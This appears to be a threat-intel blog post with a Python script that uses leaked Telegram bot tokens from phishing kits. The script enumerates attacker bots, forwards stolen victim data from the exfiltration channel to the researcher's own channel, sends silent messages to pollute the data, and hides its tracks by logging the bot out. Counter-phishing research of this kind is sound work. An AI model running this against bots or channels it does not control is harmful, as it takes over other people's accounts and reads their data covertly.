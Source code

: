 ```yaml
---
layout: threat-intel-default
title:  "Telegram Enumeration"
date:   2025-08-07
description: "qwerty"
author: "RedDuck"
tags: threat-intel
---
```


In order to facilitate research into attacks which use Telegram to exfiltrate victim information, as well as seek out the appropriate entities to which to report the crimes, we rely on using native Telegram bot API endpoints to enumerate attacker information.

Note: this requires that the attacker leaves their bot token and channel ID available, whether in a config file or a network request.

THESE WORKFLOWS SHOULD NOT BE USED AGAINST NON-ATTACKER CHANNELS. WE ONLY ANALYZE SITES SUBMITTED TO PHISHTANK.ORG, AND ARE CONFIMRED TO BE VALID PHISHES.

<script src="https://cdn.jsdelivr.net/npm/prismjs@1.9.0/prism.min.js">
<script src="https://cdn.jsdelivr.net/npm/prismjs@1.9.0/components/prism-markdown.min.js">
<script src="https://cdn.jsdelivr.net/npm/prismjs@1.9.0/components/prism-markup.js">

<pre><code class="language-python">
from datetime import datetime
import requests
import time
import os

USING = "BOT_TOKEN1"

BOT_TOKENS = {"BOT_TOKEN1": "{BOT-TOKEN}"}

CHANNEL_IDS = {"BOT_TOKEN1": "{BOT-CHANNEL}"}

MY_CHANNEL_IDS = {"BOT_TOKEN1": "{YOUR-CHANNEL}"}

URL = f"https://api.telegram.org/{BOT_TOKENS[USING]}/" 
</code></pre>

<!-- ```python
from datetime import datetime
import requests
import time
import os

USING = "BOT_TOKEN1"

BOT_TOKENS = {"BOT_TOKEN1": "{BOT-TOKEN}"}

CHANNEL_IDS = {"BOT_TOKEN1": "{BOT-CHANNEL}"}

MY_CHANNEL_IDS = {"BOT_TOKEN1": "{YOUR-CHANNEL}"}

URL = f"https://api.telegram.org/{BOT_TOKENS[USING]}/" 

# Workflow that will gather data specific to the channel that the attackers are using to exfiltrate data. If the channel ID is not known, you can use 
# determine this value by interacting with the attacker's bot; the response you receive will likely contain the ID of the channel used to exfiltrate victim data
channel_endpoints = {
    "getChatAdministrators":f"getChatAdministrators?chat_id={CHANNEL_IDS[USING]}",
    "getChat":f"getChat?chat_id={CHANNEL_IDS[USING]}",
    "getChatMembersCount":f"getChatMembersCount?chat_id={CHANNEL_IDS[USING]}",
    "createChatInviteLink":f"createChatInviteLink?chat_id={CHANNEL_IDS[USING]}",
}

# Workflow that will gather data on the bot, such as 
# - Name
# - Recent updates
# - Description
# and other general information that can be used later.
gen_endpoints = {
    "getUpdates":"getUpdates",
    "getWebhookInfo":"getWebhookInfo",
    "getMe":"getMe",
    "getMyCommands":"getMyCommands",
    "getMyName":"getMyName",
    "getMyDescription":"getMyDescription",
    "getAvailableGifts":"getAvailableGifts",
    "getWebhookInfo":"getWebhookInfo",
}

# Workflow that will remove evidence of your interaction with the attacker's bot. These endpoints will
# - Leave the chat you created to enumerate stolen data
# - Close the bot
# - Log the bot out
clear_tracks = {
    "leaveChat":f"leaveChat?chat_id={MY_CHANNEL_IDS[USING]}",
    "close":f"close",
    "logOut":f"logOut"
}

# Workflow that will send data specified by you to the attacker's channel. By default, this workflow sends empty messages, and disables notifications, so as to minimize the likelihood that the attacker will immediately detect any anomolous behavior. You may use this workflow to pollute the attacker's
# dataset, enumerate channel ID(s), etc.
sendMessage = {
    "sendMessage":f"sendMessage?text=''&chat_id={MY_CHANNEL_IDS[USING]}&disable_notification=True"
}

# Workflow to enumerate what data the attackers have stolen. 
forwardMessage = {
    "forwardMessage": f"forwardMessage?chat_id={MY_CHANNEL_IDS[USING]}&from_chat_id={CHANNEL_IDS[USING]}&message_id="
}

folder = f"{USING}-{datetime.today().strftime('%m-%d-%y')}"
try:
    os.mkdir(f"{folder}")
except:
    print("Folder already exists")
os.chdir(f"{folder}")

def enumerate():
    for inc in range(X,Y): 
        for key in forwardMessage.keys():
            looking_at = key
            response = requests.get(URL+forwardMessage[looking_at]+str(inc))
            print(response.text)
            if "Too Many Requests: retry after" not in response.text and "Bad Request: message to forward not found" not in response.text:
                with open(f"{looking_at}.json","a") as a:
                    a.write(f"{response.text}\n")
    
def query_endpoint(endpoint):
    for key in endpoint.keys():
        looking_at = key
        response = requests.get(URL+endpoint[looking_at])
        print(response.text)
        if '{"ok":true' in response.text:
            with open(f"{looking_at}.json","a") as a:
                a.write(f"{response.text}\n")

def initial_recon():
    query_endpoint(gen_endpoints)
    query_endpoint(channel_endpoints)

STAGE = "3"

match STAGE:
    case "1":
        initial_recon()
    case "2":
        enumerate()
    case "3":
        query_endpoint(clear_tracks)

os.chdir("..")
``` -->